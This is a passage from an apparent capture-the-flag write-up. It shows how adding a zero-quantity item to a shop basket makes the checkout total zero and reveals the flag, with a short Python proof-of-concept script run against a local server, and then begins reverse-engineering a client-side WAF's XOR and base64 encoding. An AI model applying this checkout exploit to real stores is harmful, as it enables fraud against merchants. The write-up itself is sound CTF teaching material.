 The logic dictates two conditions for a successful checkout that reveals the flag:
1.  The basket must not be empty (`if not basket['items']`).
2.  The basket's total value must be less than or equal to zero (`if basket['total'] > 0`).

By adding a product with a `quantity` of `0`, we can satisfy both conditions. The basket will contain an item, but its contribution to the total will be `price * 0`, resulting in a `total` of `0.0`.

A simple Python script confirms this vulnerability locally:

```python
import requests

BASE = "http://127.0.0.1:1337"

# 1. Create a basket to get a session ID
r = requests.post(f"{BASE}/api/basket")
session_id = r.json()

# 2. Add a product with quantity 0
requests.post(
    f"{BASE}/api/basket/add",
    headers={"X-Session-ID": session_id, "Content-Type": "application/json"},
    json={"product_id": 1, "quantity": 0},
)

# 3. Checkout with a total of 0.0
r = requests.post(
    f"{BASE}/api/checkout",
    headers={"X-Session-ID": session_id, "Content-Type": "application/json"},
    json={},
)

# The response contains the flag
print(r.json())
# {'message': 'Order processed successfully!', 'order_id': 'brunner{REDACTED}', 'success': True}
```

With the backend vulnerability understood, the primary obstacle became the custom WAF.

### Part 2: Reverse-Engineering the Client-Side WAF

The breakthrough in understanding this mechanism came from discovering a source map file linked in the obfuscated code : `fetch.js.map`. This file had a partial part of the obfuscated `fetch.js`, revealing part of the original source code that powered the WAF.

in the code was a custom `myFetch` function that overrode the browser's default `fetch` behavior (i removed some code for ease of readabillity) :

```javascript
function xorEncrypt(data, key) {
  const out = new Uint8Array(data.length);
  for (let i = 0; i < data.length; i++) {
    out[i] = data[i] ^ key.charCodeAt(i % key.length);
  }
  return out;
}

function base64Encode(uint8arr) {
  let binary = "";
  uint8arr.forEach((b) => (binary += String.fromCharCode(b)));
  return btoa(binary);
}

function getCookie(name) {
    // ... retrieves a cookie by name ...
}

```